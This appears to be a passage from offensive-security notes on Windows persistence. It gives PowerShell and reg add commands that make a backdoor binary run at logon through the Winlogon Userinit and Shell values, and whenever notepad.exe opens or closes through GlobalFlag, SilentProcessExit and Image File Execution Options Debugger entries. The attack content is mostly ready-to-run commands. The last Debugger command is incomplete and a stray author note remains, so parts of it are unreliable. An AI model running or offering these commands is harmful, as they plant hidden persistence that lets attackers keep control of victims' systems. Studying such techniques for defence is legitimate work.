 By default, these keys are ignored when the computer is started in Safe Mode. The value name of RunOnce keys can be prefixed with an asterisk (\*) to force the program to run even in Safe mode.

[Microsoft](https://docs.microsoft.com/en-us/windows/win32/setupapi/run-and-runonce-registry-keys)
{% endhint %}

#### Winlogon Helper DLL

{% tabs %}
{% tab title="PowerShell" %}
Run backdoor during Windows logon

```powershell
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, $backdoor" -Force
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, $backdoor" -Force
```
{% endtab %}

{% tab title="cmd.exe" %}
Run backdoor during Windows logon

```
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, evilbinary.exe" /f
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, evilbinary.exe" /f
```
{% endtab %}
{% endtabs %}

#### GlobalFlag

add powershell

Add the following three keys to the registry to allow your backdoor to execute whenever Notepad.exe closes.

```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\evil.exe"
```

#### Debugger

You can also abuse this to run your backdoor whenever Notepad.exe is opened with two registry keys:

```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "pentestlab.exe"
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe"
```

